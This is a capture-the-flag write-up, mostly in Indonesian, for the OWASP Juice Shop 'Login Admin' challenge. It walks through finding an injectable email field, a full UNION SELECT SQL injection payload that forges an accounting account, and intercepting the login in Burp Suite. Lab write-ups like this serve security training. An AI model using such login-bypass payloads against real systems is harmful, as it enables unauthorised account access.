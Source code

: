 # Juice-Shop Write-up: Login Admin (SQL Injection)

## Challenge Overview

**Title:** Login Admin (SQL Injection)  
**Category:** Injection  
**Difficulty:** ⭐⭐⭐⭐ (4/6)

Tujuan dari challenge ini adalah mengeksploitasi SQL Injection pada form login untuk membuat akun palsu dengan hak akses **Accounting** atau login sebagai user khusus.

---

## Tools Used

- **Burp Suite** → untuk intercept dan modifikasi request.  
- **Web Browser (Chrome/Firefox)** → untuk uji coba login.  

---

## Methodology and Solution

### Step 1: Identifying Injection Point

- Pada halaman **Login**, field `email` terdeteksi rentan terhadap SQL Injection.  
- Payload uji coba dimasukkan ke dalam kolom email.  

---

### Step 2: Crafting the Injection Payload

Payload yang digunakan untuk bypass login:  

```sql
' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `email`, 'set1234' AS `password`, 'acc0unt4nt@juice-sh.op' AS `username`, 'set1234' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '2024-01-01' AS `createdAt`, NULL AS `deletedAt`)--
```

- Payload ini membuat **akun palsu** dengan email `acc0unt4nt@juice-sh.op` dan password `set1234`.  
- Disisipkan langsung ke query login sehingga server menerima hasil UNION seolah-olah akun tersebut valid.  
<img width="1917" height="1078" alt="step 1" src="https://github.com/user-attachments/assets/77472398-3993-408a-8c27-e0400f72d95c" />



---

### Step 3: Intercepting Request in Burp Suite

- Dengan **Burp Suite**, request login diubah agar payload masuk ke field `email`.  
- Response menunjukkan adanya token autentikasi valid, menandakan login berhasil.  
<img width="1902" height="1067" alt="payload" src="https://github.com/user-attachments/assets/2ad66a3a-1c85-4e80-9e3a-bc6f8aeffa69" />
